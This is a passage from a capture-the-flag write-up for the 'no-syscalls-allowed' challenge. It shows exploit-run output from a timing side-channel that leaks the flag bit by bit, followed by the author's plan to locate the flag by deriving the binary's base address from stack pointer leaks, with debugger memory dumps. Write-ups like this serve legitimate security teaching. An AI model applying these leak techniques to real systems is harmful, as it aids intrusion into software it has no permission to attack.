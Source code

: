 ```
b'== proof-of-work: disabled ==\n'
0.08855581283569336
the bit is 0
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.5963900089263916
the bit is 1
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.5734691619873047
the bit is 1
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.10383796691894531
the bit is 0
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.08850741386413574
the bit is 0
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.5867149829864502
the bit is 1
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.09191155433654785
the bit is 0
01001101
current byte is 0x4d
```
Bytes are leaked out correctly, and the difference between 1 bits and 0 bits is large enough to be easily differentiated without resulting in an excessive pause between runs. 

### Finding the Flag

This step required some creativity since I did not have access to the compiled binary that is running on the server. So, step one was to look at some of the interesting offsets on the locally-compiled binary as an approximation of what the remote might look like. The flag variable itself is a little over 0x4000 bytes from the start of the code section; based on my knowledge of how binaries are typically structured, it should remain in that general area between the remote and local binaries, just with some potential variance in exactly how far it is from the start of that memory section. I also noted that, as expected, there should be some PIE leaks in the stack, which rbp should be pointing to (there were also some registers with PIE addresses locally, but I decided this would be more reliable). From most of these PIE leaks, you could derive the start of the code section by nulling out the final three nibbles and subtracting 0x1000, and confirm whether or not this is correct by checking the contents for the ELF binary header.
```
gef➤  x/s 0x56023f749000
0x56023f749000: "\177ELF\002\001\001"
gef➤  x/8bx 0x56023f749000
0x56023f749000: 0x7f    0x45    0x4c    0x46    0x02    0x01    0x01    0x00
```